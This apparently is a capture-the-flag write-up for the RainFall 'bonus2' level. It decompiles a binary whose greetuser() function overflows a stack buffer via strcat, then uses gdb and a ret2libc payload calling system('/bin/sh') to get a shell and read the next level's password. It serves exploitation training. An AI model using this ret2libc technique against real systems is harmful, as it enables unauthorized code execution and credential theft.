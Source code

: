 ## Step 1: Static & Dynamic Analysis

```c
0804873d  data_804873d:
0804873d                                         66 69 00               fi.
08048740  data_8048740:
08048740  6e 6c 00                                         nl.

08048484    int32_t greetuser()
08048484    {
08048484        uint32_t language_1 = language;
08048492        int32_t str;
08048492        
08048492        if (language_1 == 1)
08048492        {
080484c4            __builtin_memcpy(&str, "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20", 18);
080484e4            char var_3a_1 = 0;
08048492        }
08048492        else if (language_1 == 2)
080484f3            __builtin_strcpy(&str, "Goedemiddag! ");
08048497        else if (!language_1)
080484a7            __builtin_strncpy(&str, "Hello ", 7);
080484a7        
08048517        strcat(&str, &name);
08048528        return puts(&str);
08048484    }

08048529    int32_t main(int32_t argc, char** argv, char** envp)
08048529    {
08048529        if (argc != 3)
0804855a            return 1;
0804855a        
0804855a        void buff;
0804855a        __builtin_memset(&buff, 0, 76);
08048564        size_t size = 40;
0804856c        char* arg = argv[1];
08048574        void* tmp = &buff;
08048577        strncpy(tmp, arg, size);
08048584        size_t size2 = 32;
0804858c        arg = argv[2];
08048597        void buff2;
08048597        tmp = &buff2;
0804859a        strncpy(tmp, arg, size2);
0804859f        tmp = "LANG";
080485a6        char* lang_value = getenv(tmp);

080485ba        if (lang_value)
080485ba        {
080485bc            size_t lang_size = 2;
080485c4            arg = &data_804873d;
080485d3            tmp = lang_value;
080485d3            
080485dd            if (memcmp(tmp, arg, lang_size))
080485dd            {
080485eb                size_t var_a8_1 = 2;
080485f3                arg = &data_8048740;
08048602                tmp = lang_value;
08048602                
0804860c                if (!memcmp(tmp, arg, var_a8_1))
0804860e                    language = 2;
080485dd            }
080485dd            else
080485df                language = 1;
080485ba        }
080485ba        
08048629        __builtin_memcpy(&tmp, &buff, 76);
0804862b        return greetuser();
08048529    }
```

### Explanation

The main function takes two arguments and checks an environment variable named `LANG` to determine a language setting.

The first and second arguments are set into buff_1 (40 bytes max) and buff_2 (32 bytes max)

Next the program checks if the env variable  `LANG` is set to "fi" or "nl"

Then the contentis copied into buff_1 memory on the stack (possibly causing a buffer overflow if buff_1 is too large.)

A fucntion named `greetuser()` is called:

3 cases: if `LANG` is set with a value other than "fi" or "nl" the string "Hello" printed.
         if "nl" is set in the `LANG` variable "Goedemiddag! " is printed
         if "fi" is set in the `LANG` variable "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20" ASCII characters are created printing "Hyvää päivää".

the vulnerability - set a breakpoint on the return address of `greetuser()` function

```sh
r $(python -c "print('A' * 40)") $(python -c "print('B' * 18 + 'wwwwwwwwwwww')")


Breakpoint 3, 0x08048527 in greetuser ()
(gdb) x/8xw $ebp
0xbffff638:	0x42424242	0x77777777	0x77777777	0x77777777
0xbffff648:	0x41414100	0x41414141	0x41414141	0x41414141
```

Perform a ret2libc

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) info proc map
process 2892
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb8000000,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
```

## Step 2: Exploiting the Binary
```bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c "print('A' * 40)") $(python -c "print('B' * 18 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1])")
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����X���
$  cat /home/user/bonus3/.pass         
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```bash